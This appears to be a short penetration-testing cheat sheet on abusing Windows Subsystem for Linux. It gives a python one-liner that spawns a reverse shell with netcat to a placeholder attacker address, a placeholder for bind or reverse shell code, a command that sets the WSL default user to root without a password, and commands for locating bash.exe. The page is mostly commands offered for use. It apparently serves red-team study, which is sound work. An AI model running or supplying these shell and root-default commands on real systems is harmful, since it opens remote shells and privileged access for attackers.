 # Windows Subsystem for Linux (WSL)

With root privileges WSL allow users to create a bind shell on any port (no elevation needed). 

```sh
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

wsl python3 -c "import pty;pty.spawn('nc YOUR_IP YOUR_PORT -e /bin/bash')"
```

Don't know the root password? No problem just set the default user to root W/ .exe `--default-user root`

```sh
wsl whoami
./ubuntun1604.exe config --default-user root
```


Locate `Bash.exe`

```sh
where /R C:\Windows bash.exe
```
can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_[...]\bash.exe`

